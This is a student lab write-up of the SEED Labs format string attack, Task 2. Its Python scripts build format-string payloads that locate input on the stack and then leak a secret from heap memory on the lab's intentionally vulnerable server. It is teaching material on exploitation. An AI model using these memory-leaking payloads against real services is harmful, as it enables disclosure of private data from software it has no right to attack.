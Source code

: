 # SEED Labs - Format String Attack Lab
## Task #2

### Task 2.A: Stack Data

1. Send a payload that allows the finding of the memory addresses of the stack values.
    - In our case, we have done this with the script `exploit.py` by modifying the number of "%x" modifiers until our value 0xABCD1234 were found.

```python
#!/usr/bin/python3
import sys

payload = bytearray.fromhex("ABCD1234") + b" %x " * 64

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(payload)
```

Terminal 1 | Terminal 2
:---------:|:---------:
![Lab Task 2](../../images/logbook6/task2/00.png) | ![Lab Task 2](../../images/logbook6/task2/01.png)

2. Analyze the server logs output
    - If we analyze the logs, we can easily find that there are 63 addresses before our input. Since each address has 4 Bytes, we need to send 252 bytes before we find our input.

### Task 2.B: Heap Data

1. Write the payload to get the secret message
    - We know the address of the secret message because of the log `server-10.9.0.5 | The secret message's address:  0x080b4008`
    - We also know that if we write a variable we will get it in the 64th position, so, if we write the address of the secret variable and we just normally print the address of the 63 filler addresses, we can print the address of our secret as a string with the "%x" modifier and therefore, we get the secret content.

```python
#!/usr/bin/python3
import sys

payload = (0x080b4008).to_bytes(4, byteorder='little') + b"%x"*63 + b"%s"

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(payload)
  ```

Terminal 1 | Terminal 2
:---------:|:---------:
![Lab Task 2](../../images/logbook6/task2/02.png) | ![Lab Task 2](../../images/logbook6/task2/03.png)

